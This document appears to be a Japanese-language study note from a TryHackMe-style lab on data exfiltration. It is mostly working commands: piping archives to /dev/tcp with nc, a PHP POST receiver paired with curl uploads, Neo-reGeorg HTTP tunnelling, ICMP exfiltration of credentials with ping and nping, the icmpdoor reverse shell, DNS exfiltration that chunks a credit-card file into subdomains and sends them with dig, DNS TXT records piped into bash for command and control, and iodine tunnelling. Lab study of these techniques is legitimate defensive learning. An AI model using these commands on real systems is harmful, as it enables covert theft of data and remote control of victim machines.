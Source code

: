 # データ流出

## TCP ソケット

非標準プロトコルに依存しているため検出されやすい。

```shell
# 受信側
nc -lvp 8080 > /tmp/task4-creds.data

# 送信側
tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080

## 復元
dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar

tar xvf task4-creds.tar
```

## SSH

scp または ssh クライアントを使う。

```shell
tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

## HTTP / HTTPS

パラメータがアクセスログに保存されないため POST リクエストを使う。  
また、POST リクエストのデータ長には制限がない。

### HTTP

POST リクエストを処理する Web サーバーを用意

```php
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

```shell
# 送信側（task6ディレクトリを送信）
curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php

# 受信側
thm@web-thm:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3RPQ4CIRCGYeo9BSdQQGATO49CXAtjFAMYPb672G38qYgxvk8zDFDM5CshH/xS
NKVGvXO1jua1nrU1ziqle2 E0sorJ6RrO9bDJZeQpBQpxvLu36f3H1Vq/tu0G/Ki3NpsOAXsrX2d
v/Wz/I0dr6RqMs3Mn cfhuP tD6HnK8xDd2mttqsrPPdtPK6xJi6b08JAAAAAAAAAAAAAAAA4Jk7
FWUx0QAoAAA=

# URLエンコードにより、Base64の+が空白に置き換えられているので置換が必要。
sudo sed -i 's/ /+/g' /tmp/http.bs64

cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

### HTTP トンネリング

https://github.com/L-codes/Neo-reGeorg

- kali から 10.10.140.37 にアクセス可能
- 10.10.140.37 から 内部アドレス 172.20.0.120 にアクセス可能

と仮定し、kali から 10.10.140.37 トンネリング経由で 172.20.0.120 と通信する

以下のコマンドは全て kali 上で実行している。

```shell
# キー'thm'で暗号化されたトンネリングクライアントを生成
python3 neoreg.py generate -k thm

# 複数種類のサーバープログラムが作られる
ls ./neoreg_servers
key.txt  tunnel.ashx  tunnel.aspx  tunnel.cs  tunnel.go  tunnel.jsp  tunnel.jspx  tunnel.php

# 10.10.140.37に、tunnnel.php をアップロードしたとする。
# Webトンネルを作成
python3 neoreg.py -k thm -u http://10.10.140.37/uploader/files/tunnel.php

# HTTPリクエスト
curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag
```

## ICMP

### ping -p

-p オプションで、最大 16 バイトの 16 進数パターンを送信できる  
※ Linux の ping 限定

```shell
$ echo "thm:tryhackme" | xxd -p
74686d3a7472796861636b6d650a

$ ping 10.10.140.37 -c 1 -p 74686d3a7472796861636b6d650a
```

### metasploit

```shell
sudo msfconsole
use auxiliary/server/icmp_exfil
set BPF_FILTER icmp and not src <attacker-ip>
set interface eth0
run
```

```shell
sudo nping --icmp -c 1 <attacker-ip> --data-string "BOFfile.txt"
sudo nping --icmp -c 1 <attacker-ip> --data-string "admin:password"
sudo nping --icmp -c 1 <attacker-ip> --data-string "admin2:password2"
sudo nping --icmp -c 1 <attacker-ip> --data-string "EOF"
```

### ICMP Door

https://github.com/krabelize/icmpdoor

icmpdoor を Victim 側に送って実行する必要がある。  
ICMP の Data セクションを利用したリバースシェル。

```shell
# Victim側で実行
sudo icmpdoor -i eth0 -d 192.168.0.133

# 攻撃側で実行（シェルを取得できる）
sudo icmp-cnc -i eth1 -d 192.168.0.121
```

### DNS

```shell
# DNSリクエストの簡易確認用
sudo tcpdump -i eth0 udp port 53 -v
```

完全修飾 FQDN の最大長は 255 文字、サブドメインの各ラベルは 63 文字まで。

```shell
# 分割ごとにリクエストを分ける
cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
TmFtZTogVEhNLXVzZX.att.tunnel.com
IKQWRkcmVzczogMTIz.att.tunnel.com
NCBJbnRlcm5ldCwgVE.att.tunnel.com
hNCkNyZWRpdCBDYXJk.att.tunnel.com
OiAxMjM0LTEyMzQtMT.att.tunnel.com
IzNC0xMjM0CkV4cGly.att.tunnel.com
ZTogMDUvMDUvMjAyMg.att.tunnel.com
pDb2RlOiAxMzM3Cg==.att.tunnel.com

# 分割をピリオドで分割してまとめる
cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.att.tunnel.com

# digで送信
cat task9/credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
```

#### C2 over DNS

```shell
cat /tmp/script.sh | base64
IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
```

これを、script.tunnel.com の TXT レコードに登録したとする。

```shell
dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```

#### TCP over DNS

iodine

https://github.com/yarrick/iodine

```shell
# サーバー起動（攻撃側）
# 新しいNICを作成する（nds0）
# サーバーIPが10.1.1.1, クライアントIPが10.1.1.2になる。
sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com

# サーバーに接続（victim側）
sudo iodine -P thmpass att.tunnel.com
```

```shell
ssh thm@10.1.1.2 -4 -f -N -D 1080

root@attacker$ proxychains curl http://192.168.0.100/demo.php
root@attacker$ #OR
root@attacker$ curl --socks5 127.0.0.1:1080 http://192.168.0.100/demo.php
```
